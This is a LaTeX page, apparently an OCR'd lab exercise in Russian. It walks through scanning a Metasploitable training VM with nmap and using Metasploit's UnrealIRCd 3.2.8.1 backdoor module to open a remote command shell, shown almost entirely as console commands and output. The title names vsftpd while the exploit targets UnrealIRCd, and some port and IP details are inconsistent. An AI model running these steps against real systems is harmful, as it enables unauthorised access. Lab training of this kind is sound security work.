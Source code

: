\documentclass[10pt,a4paper]{article}
\begin{document}
\paragraph{Получить консоль используя уязвимость в vsftpd}
~

\begin{enumerate}
\item Сканируем целевую машину с целью определить версию irc
\item Осуществляем поиск подходящего эксплойта
\item Устанавливаем параметры эксплойта (rhost)
\item Запускаем эксплойт
\end{enumerate}

\begin{verbatim}
msf exploit(vsftpd_234_backdoor) > nmap 192.168.0.155 -sV -p 6667
[*] exec: nmap 192.168.0.155 -sV -p 6667

Starting Nmap 6.47 ( http://nmap.org ) at 2015-06-03 07:15 EDT
Nmap scan report for 192.168.0.155
Host is up (0.00020s latency).
PORT     STATE SERVICE VERSION
6667/tcp open  irc     Unreal ircd
MAC Address:  B8:C6:8E:A2:E3:38 (samsung Computer Systems)
Service Info: Host: irc.Metasploitable.LAN

Service detection performed. Please report any incorrect results 
at http://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 0.18 seconds


msf exploit(vsftpd_234_backdoor) > search unreal

Matching Modules
================

   Name                                        Disclosure Date  
   Rank       Description
   ----                                        ---------------  
   ----       -----------
   exploit/linux/games/ut2004_secure           2004-06-18       
   good       Unreal Tournament 2004 "secure" Overflow (Linux)
   exploit/unix/irc/unreal_ircd_3281_backdoor  2010-06-12       
   excellent  UnrealIRCD 3.2.8.1 Backdoor Command Execution
   exploit/windows/games/ut2004_secure         2004-06-18       
   good       Unreal Tournament 2004 "secure" Overflow (Win32)

msf exploit(vsftpd_234_backdoor) > use exploit/unix/irc/
unreal_ircd_3281_backdoor 
msf exploit(unreal_ircd_3281_backdoor) > set RHOST 192.168.0.155
RHOST => 192.168.0.155
msf exploit(unreal_ircd_3281_backdoor) > exploit

[*] Started reverse double handler
[*] Connected to 192.168.0.155:445...
    :irc.Metasploitable.LAN NOTICE AUTH :*** Looking up your 
    hostname...
    :irc.Metasploitable.LAN NOTICE AUTH :*** Couldn't resolve 
    your hostname; using your IP address instead
[*] Sending backdoor command...
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo 9BgYY1xkmWTTKmbM;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "9BgYY1xkmWTTKmbM\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 2 opened (192.168.0.155:4444 -> 
192.168.0.155:59388) at 2015-06-03 07:21:04 -0400

hostname
metasploitable
\end{verbatim}
\end{document}

